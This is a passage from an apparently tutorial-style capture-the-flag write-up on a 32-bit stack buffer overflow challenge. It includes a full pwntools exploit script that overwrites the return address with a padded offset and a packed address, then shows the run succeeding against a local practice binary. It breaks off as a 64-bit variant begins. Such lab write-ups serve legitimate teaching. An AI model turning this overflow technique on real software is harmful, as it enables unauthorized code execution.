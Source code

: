By using the `p32()` function from pwntools, we can interpret the memory address into bytes without needing to use the built-in `struct` module.

Now that we have our payload ready, we need to send it.

```py
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
payload += p32(0x80485c6) # b'\xc6\x85\x04\x08'

io.sendline(payload) # Sends our payload to the program, similar to running the program manually and typing "screaming goes here"

io.interactive() # Allows us to see the program run
```

Now we can run our script and hope that it works.

> If you end up seeing "Missing flag file! Please contact support if you see this error on the remote target!", it just means you're missing the `flag` file which isn't a big deal since we're testing this on our machine.

![Output of running the script](baby-bof-86-running-the-script.png)
*Look at that! We've succesfully pwn'ed the challenge!*

### 2) :baby: BOF 64
Smashing the stack like its 19x64  
- - -
#### Running the program
Once again, let's see how this program behaves.

![Output from running the program](baby-bof-64-running-the-program.png)
